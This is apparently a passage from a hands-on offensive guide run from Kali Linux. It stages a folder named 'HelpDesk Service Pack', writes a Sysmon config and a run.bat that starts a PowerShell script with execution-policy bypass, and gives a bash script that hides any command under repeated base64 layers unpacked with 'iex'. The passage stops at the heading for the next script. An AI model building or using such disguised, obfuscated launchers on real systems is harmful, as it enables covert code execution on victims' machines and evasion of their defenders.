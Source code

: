 Copy the sysmonconfig-export.xml

nano a file into the HelpDesk Service Pack folder that we just created

cd "/home/kali/Desktop/tools/Service Pack" ; nano sysmonconfig-export.xml ; cp sysmonconfig-export.xml "./HelpDesk Service Pack/"

Copy and paste the following into the file and DELETE THE NEWLINES BETWEEN EACH LINE

<Sysmon schemaversion="4.90">  
<ArchiveDirectory>PerfMon</ArchiveDirectory>  
<EventFiltering>  
    <FileDelete onmatch="exclude">  
      <Image condition="contains">Prefetch</Image>  
      <TargetFilename condition="contains">.pf</TargetFilename>  
      <Image condition="contains">splunk</Image>  
      <Image condition="contains">WSM</Image>  
    </FileDelete>  
    <FileDelete onmatch="include">  
      <TargetFilename condition="contains">.exe</TargetFilename>  
    </FileDelete>  
</EventFiltering>  
</Sysmon>

Create the run.bat script in the Service Pack folder

cd "/home/kali/Desktop/tools/Service Pack" ; nano run.bat

Copy the following into the file:

powershell -ep bypass "C:\Users\Public\'HelpDesk Service Pack'\sysmonsetup.ps1"

doge64commander.sh

Copy and paste this into a file into /home/kali/Desktop/tools named doge64commander.sh ensure you also run chmod +x on the file to make it executable


cd /home/kali/Desktop/tools ; nano doge64commander.sh ; chmod +x doge64commander.sh

#!/bin/bash
echo "What command would you like to encode? "
read command
enccmd=$(echo $command | base64)

echo "How many iterations? "
read counter
for (( i=1; i<=$counter; i++)); do
  start=$(date +%s%N)
  echo 'iex $($x=[Convert]::FromBase64String("'$enccmd'");$y=[System.Text.Encoding]::UTF8.GetString($x);$y)' > commanded.ps1
  enccmd=$(cat commanded.ps1 | base64)
  end=$(date +%s%N)
  echo "Time elapsed for loop $i: $(($((end - start)) / 1000000)) ms"
  done

Create the sysmonsetup.ps1 script

